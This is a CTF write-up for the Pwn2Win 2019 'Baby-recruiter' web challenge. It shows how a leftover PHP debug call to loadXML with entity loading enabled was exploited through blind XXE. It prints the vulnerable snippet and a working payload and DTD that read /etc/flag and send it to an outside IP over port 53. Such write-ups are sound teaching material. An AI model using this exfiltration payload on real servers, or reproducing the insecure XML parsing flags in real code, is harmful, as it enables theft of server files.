 # Pwn2Win2019_Baby-recruiter - Write-up
Web challenge solved during Pwn2Win 2019 CTF (by Ganesh - USP)

To see all the challenges we've solved check the [Ganesh Github repo](https://github.com/GANESH-ICMC/CTF-Writeups/tree/master/Pwn2Win-2019).

## Challenge description
```
We found a Curriculum service from HARPA. Well, what do you think about pwn it? :)

P.S.: the flag is not in default format, so add CTF-BR{} when you find it (leet speak).

```

## Write-up
Firstly, the challenge gave us three files: Dockerfile, index.php e iptables.sh (there was also a setup.sh but it wasn't useful).
By looking at the Dockerfile we noticed that:
1. It installed a version of prince that might have a vulnerability, such as [this one](https://www.corben.io/XSS-to-XXE-in-Prince/), but we were wrong. It didn't;
2. The location of the flag (/etc/flag);
3. The setup/configuration of iptables.

``` sh
# there was some other stuff here, but we don't need it now
RUN wget https://www.princexml.com/download/prince_12.5-1_ubuntu18.04_amd64.deb

RUN echo -n 'this_is_not_the_flag' > /etc/flag

RUN chmod +x iptables.sh && ./iptables.sh
```
Also, after analizing the iptables.sh file, we noticed that it was only possible to establish new connections through port 53 (used for DNS) and port 80. However, in port 80 the server only responded to already established connections.
``` sh
## This should be one of the first rules.
## so dns lookups are already allowed for your other rules
$IPT -A OUTPUT -p udp --dport 53 -m state --state NEW,ESTABLISHED -j ACCEPT
$IPT -A INPUT  -p udp --sport 53 -m state --state ESTABLISHED     -j ACCEPT
$IPT -A OUTPUT -p tcp --dport 53 -m state --state NEW,ESTABLISHED -j ACCEPT
$IPT -A INPUT  -p tcp --sport 53 -m state --state ESTABLISHED     -j ACCEPT

echo "Allowing new and established incoming connections to port 80"
$IPT -A INPUT  -p tcp -m multiport --dports 80 -m state --state NEW,ESTABLISHED -j ACCEPT
$IPT -A OUTPUT -p tcp -m multiport --sports 80 -m state --state ESTABLISHED     -j ACCEPT

```

After trying some stuff, we noticed that in the index.php file, there was uncommented code used for debug :
``` php
/* debug */
$dom = new DOMDocument();
$dom->loadXML($content, LIBXML_NOENT | LIBXML_DTDLOAD);
$info = simplexml_import_dom($dom);
```
So, we thought that we could try a **Blind XXE Injection**! The *$content* came from a *textarea* in the index.php page, so we just had to write our payload there and send it to the server. However, the server would only respond to reqs at port 53! Thus, we had to disable the DNS resolver in our machine - at port 53 - with `sudo systemctl stop systemd-resolved` and run a local server there.
Finaly, we send the payload:
``` xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://143.107.3.131:53/host.dtd">
<data>&send;</data>
```

And the server asked us for this .dtd file:
``` xml
<!ENTITY % file SYSTEM "file:///etc/flag">
<!ENTITY % eval "<!ENTITY send SYSTEM 'http://143.107.3.131:53/collect/%file;'>">
%eval;
``` 

And this gave us the **flag**!


*Another way of solving it is available at [SigFlag Blog](https://www.sigflag.at/blog/2019/writeup-pwn2win-baby-recruiter/
)*
